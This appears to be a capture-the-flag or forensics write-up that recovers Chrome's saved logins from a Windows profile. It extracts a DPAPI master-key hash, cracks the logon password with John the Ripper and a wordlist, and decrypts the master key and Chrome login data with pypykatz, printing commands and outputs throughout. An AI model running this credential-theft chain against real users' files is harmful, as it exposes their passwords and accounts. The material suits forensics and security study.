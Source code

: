 
## Overview
Chrome uses aes-gcm to encrypt saved login passwords. The aes key is saved in in AppData directory in base64 after being encrypted with an os-specific method. In windows, this method is dpapi. The dpapi master key is also saved in AppData directory. The secrets used for encrypting the dpapi are the user sid and password (used to log in windows).

The plan is pretty straight forward:
1. Find user sid
2. Bruteforce user password
3. Decrypt dpapi master key using the above two
4. Decrypt aes key using the above
5. Decrypt saved login

## Decrypt dpapi master key
The encrypted master key is the file **AppData/Roaming/Microsoft/Protect/S-1-5-21-3702016591-3723034727-1691771208-1002/865be7a6-863c-4d73-ac9f-233f8734089d**.

The secret information used for encrypting it is the user SID and windows logon password. The SID is the name of the directory where the encrypted master key file resides. The only missing piece is the user password, let's crack it!

### Obtain dpapi master key hash

First we need to use a python script called **DPAPImk2john** (comes with John the Ripper jumbo) to obtain the target hash:

```bash
DPAPImk2john -S S-1-5-21-3702016591-3723034727-1691771208-1002 -mk 865be7a6-863c-4d73-ac9f-233f8734089d -c local | tee hash
```
```
$DPAPImk$2*1*S-1-5-21-3702016591-3723034727-1691771208-1002*aes256*sha512*8000*a17612a0ebdfc203316e0c18c04729f1*288*7dd629ab5efc8442596e5fbe5b9fc695bf8a51384dfacabd7a1a214245f894383540eb3e00c009bd76f836ae991cef540d74c0a6a31527b7e1df4b0d55a6760e41271f3dcaad163a6fb648f898281424728485335676c0374735cab055088e66bc55a72fc2087d64038d1d716f5efd4bdd4ce19971d082db004a36de70c351a2bd9b6ba9cf8f89a7481150b26f5808bc
```

### Bruteforce user logon password
```bash
john --format=DPAPImk hash -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```
```
ransom           (?)
```

### Decrypt key
Now we can decrypt the master key. For this we will use a platform-agnostic version of **mimikatz**; enter **pypykatz**.

First we need to generate candidate prekeys based on SID and password:
```bash
pypykatz dpapi prekey password S-1-5-21-3702016591-3723034727-1691771208-1002 ransom | tee prekeys
```
```
87ca22100fa54e86e4a2c476f67addf6b4375933
6ab24a899ad96bddd85374197b3402f72c0d33bf
4be3d408d12b0371839dabef088686ffb777e1d9
```

Let's crack it!
```bash
pypykatz dpapi masterkey 865be7a6-863c-4d73-ac9f-233f8734089d prekeys
```
```
[GUID] 865be7a6-863c-4d73-ac9f-233f8734089d [MASTERKEY] 138f089556f32b87e53c5337c47f5f34746162db7fe9ef47f13a92c74897bf67e890bcf9c6a1d1f4cc5454f13fcecc1f9f910afb8e2441d8d3dbc3997794c630
```

## Decrypt saved login
First let's dump the decrypted masterkey in a format usable with pypykatz _dpapi blob_ command:
```bash
pypykatz dpapi masterkey 865be7a6-863c-4d73-ac9f-233f8734089d prekeys -o mkf
```

As of v0.5.8, pypykatz has a chrome-specific command for decoding saved logins and cookies offline. It needs the file **AppData/Local/Google/Chrome/User Data/Local State** because this is where the chrome aes key is stored, as well as **AppData/Local/Google/Chrome/User Data/Default/Login Data** which contains the saved login:
```bash
pypykatz dpapi chrome mkf 'Local State' --logindata 'Login Data'
```
